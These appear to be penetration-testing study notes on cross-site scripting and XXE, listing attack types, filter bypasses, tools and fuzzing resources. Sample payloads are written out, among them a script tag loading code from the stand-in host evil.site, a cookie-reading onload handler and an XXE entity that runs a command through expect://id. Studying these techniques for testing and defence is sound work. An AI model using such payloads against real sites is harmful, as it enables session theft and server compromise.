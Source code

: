 ------

#### Cross Site Scripting and Attack Frameworks**

Goal: The candidate will demonstrate an understanding of the types of XSS attacks and XSS attack frameworks that can be utilized during a pen test

XSS

- http response-splitting:  abillity to modify header, a bunch of \n's and the original is ignored.

- If \<script\> is blacklisted, then you can use the DOM event handler to inject in onerror(), etc

- Attack targets the browser and not the server; however impact could be on client or server side

  - http://www.fire.com/page.asp?pageid=10&lang=en&Title<h1><script>1=1</script>

- Same origin policy: Ensures client code runs for the associated application (determined by server, port and protocol)

- Some sites use white-listing or black-listing or both to prevent XSS
  
  - These may be bypassed using Unicode and hex encoding
  
- Types: Reflected, Stored / Persistent and DOM-based

  - Reflected example:  http://www.GIAC.net/php/index.php?lang=de0utf-8&convcharset=iso-8859-1&collation_connection=utf8_unicode_ci

- Tools: BurpSuite, ZAP, XSSer, XSSSniper, XSScrapy, TamperData

- XSS Fuzzing: Reflection tests, Filter tests, POC payloads
  - [https://code.google.com/p/fuzzdb/source/browse/trunk/attack-payloads/xss/](https://code.google.com/p/fuzzdb/source/browse/trunk/attack-payloads/xss/)
  - [https://www.owasp.org/index.php/JBroFuzz](https://www.owasp.org/index.php/JBroFuzz)
  
- HTML injection; Image injection; Iframe injection;

- Possible to read cookies, redirecting a user or run any external scripts
  - <script src=&quot;http://evil.site/malicious.js" >
  
  - <img src=&quot;images/logo.gif&quot; onload=&quot;javascript:alert(document.cookie);">
  
- XSScrappy - checks if site is vulnerable

  - payload is '"(){}<x>:; - if any rendered without escape, site is probably vulnerable
  - could also be '"0=<x> or JaVAscRIPT:prompt(99)

- test using a uniquely crafted value

- same-origin policy used to control interactions from different servers (tabs)

XXE

```
	POST http://example.com/xml HTTP/1.1

​	<?xml version=1.0" encoding=ISO-8859-1"?>

​	<!DOCTYPE doc1 [

​		<!ELEMENT doc1 ANY >

​		<!ENTITY ent1 SYSTEM "expect://id" >

​	]>
```
